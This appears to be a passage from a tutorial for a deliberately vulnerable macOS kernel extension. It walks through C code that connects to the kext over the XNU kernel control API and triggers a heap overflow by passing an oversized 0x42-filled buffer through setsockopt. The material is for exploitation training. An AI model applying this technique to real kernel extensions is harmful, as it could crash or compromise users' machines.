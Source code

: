 # Lets now trigger a heap overflow

- The vulnerable kext uses `kernel control API`. The kernel control API is a bidirectional communication mechanism between a user space application and a KEXT.
- XNU defines `PF_SYSTEM` domain to provide a way for applications to configure and control KEXTs.
- The `PF_SYSTEM` domain, in turn, supports two protocols, `SYSPROTO_CONTROL` and `SYSPROTO_EVENT`.

We use PF_SYSTEM and SYSPROTO_CONTROL to connect to the vulnerable kext. 
`int sock = socket(PF_SYSTEM, SOCK_DGRAM, SYSPROTO_CONTROL);`

We need the control id of the kext assigned by the kernel. We can fetch it using ioctl on the `sock`

```
	struct ctl_info info;
	memset(&info, 0, sizeof(info));
	strncpy(info.ctl_name, CONTROL_NAME, sizeof(info.ctl_name));

	int err = ioctl(sock, CTLIOCGINFO, &info);
    if (err)
	{
		perror("Could not get ID for kernel control.\n");
		exit(-1);
	}

```

We use the `info.ctl_id` kernel control id and create a `struct sockaddr_ctl` and connect to the sock:

```
	struct sockaddr_ctl addr;
	
	addr.sc_len 	= sizeof(addr);
	addr.sc_family  = AF_SYSTEM;
	addr.ss_sysaddr = AF_SYS_CONTROL;
	addr.sc_id 		= info.ctl_id;
	addr.sc_unit 	= 0; /* allocate dynamically */

	int err = connect(sock, (struct sockaddr*) &addr, sizeof(addr));
```

We can now trigger one of the defined vulnerabilitiesby  calling `setsockopt` on the above `sock`
```int setsockopt(int socket, int level, int option_name, const void *option_value, socklen_t option_len);```


Example to trigger heap overflow, we set the opt to HEAP_OVERFLOW, pass in the user data to kernel inside data

~~~
size_t size = 1024;
char address[size];

memset(address, 0x42, size);

setsockopt(ctrl, SYSPROTO_CONTROL, HEAP_OVERFLOW, address, size);
~~~

Complete code is available at: [kext_client](https://github.com/ant4g0nist/Vulnerable-Kext/tree/main/kext_client/)
